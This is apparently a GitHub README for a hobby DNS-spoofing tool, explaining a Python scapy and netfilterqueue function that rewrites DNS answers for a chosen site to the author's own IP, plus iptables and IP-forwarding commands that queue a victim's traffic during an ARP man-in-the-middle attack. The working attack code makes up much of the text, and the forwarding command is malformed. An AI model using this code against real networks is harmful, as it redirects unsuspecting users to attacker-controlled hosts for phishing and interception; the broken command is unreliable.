 # DNS_spoof

## Used Modules

### netfilterqueue

This modules is used to redirect the flow of packets, the funtions process_packet will receive the packet and turn it into a scapy packet that i can edit(if you wanna know more about the module scapy go to another of my repositories like ARP_spoof).
When i verify that i have some request from my target(i can know if i have one request because i became the MITM, go to my repository ARP_spoof) if that's true i'm gonna take the value of the url and see if is the same web-site that i wanna spoof, and if it is i can send the DNS response with my ip destination, but with the same url name. Finally i can change the field "an" that contain the real answer to my costumized response and change the field "ancount" for just one response. Finally i'm gonna turn the scapy packet to a real packet.

```python
def process_packet(packet):
    scapy_packet = scapy.IP(packet.get_payload())
    if scapy_packet.haslayer(scapy.DNSRR):
         qname = scapy_packet[scapy.DNSQR].qname
         if "testephp.vulnweb.com" in qname:
             print("[+] Spoofing target" + str(qname))
             answer = scapy.DNSRR(rrname=qname, rdata="192.168.1.8")
             scapy_packet[scapy.DNS].an = answer
             scapy_packet[scapy.DNS].ancount = 1
          
             del scapy_packet[scapy.IP].len
             del scapy_packet[scapy.IP].chksum
             del scapy_packet[scapy.UDP].chksum
             del scapy_packet[scapy.UDP].len
            

             packet.set_payload(str(scapy_packet))
```


## Used Commands

these commands clean the Iptables, and redirect the packets entering and leaving my pc for a queue 0 that i'm creating, this way all the packets that came through my computer instead of just pass (because of my arp_spoof when i became the Man-in-the-Midle) i'm gonna store all the packets in a queue.  

iptables --flush<br>
iptables -I INPUT -j NFQUEUE --queue-num  0<br>
iptables -I OUTPUT -j NFQUEUE --queue-num  0<br>

Internet sharing on Linux is done through Netfilter / Iptables, which is the native firewall for distributions starting with the 2.4 kernel. So is necessary to use this command, this command writes the number 1 into the ip_forward file, enabling packet routing. The default is 0. With this, Linux starts to route packages from one interface to the other and vice versa(My target and my host).

echo > 1 /proc/sys/ipv4/ip_forward


